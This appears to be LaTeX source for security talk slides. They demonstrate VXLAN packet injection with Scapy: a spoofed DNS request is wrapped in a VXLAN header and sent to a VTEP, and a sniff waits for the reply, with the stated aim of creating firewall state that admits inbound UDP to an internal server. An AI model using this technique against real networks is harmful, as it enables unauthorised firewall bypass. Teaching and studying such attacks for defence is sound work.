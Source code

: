 \documentclass[Screen16to9,17pt,footrule]{foils}
\begin{document}

First create VXLAN header and inside packet
\begin{alltt}\footnotesize
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN {\bf

vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")}

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet={\bf vxlan}/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{alltt}

{\small Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server - normal IP stack behaviour}



Send and then wait for something, not from same IP bc from\\
inside NAT, but port should be OK
\begin{alltt}\footnotesize
pid = os.fork()
if pid:
    # we are the parent
    print "parent: setting up sniffing"
    # Wait for UDP packet
    data = sniff(filter="udp and port 54040 and net 192.0.2.0/24", count=1)
else:
    # we are the child
    time.sleep(10)
    print "child: sending packet"
    sendp(packet,loop=0)
    print "child: closing"
    sys.exit(0)
#print data.summary()
data[0].show()
\end{alltt}

The source port we used in the inside packet, becomes the destination port in replies from the server - 54040 in example


Plan inject UDP via VXLAN to create firewall state, will allow\\
reverse UDP requests coming into internal server
\end{document}
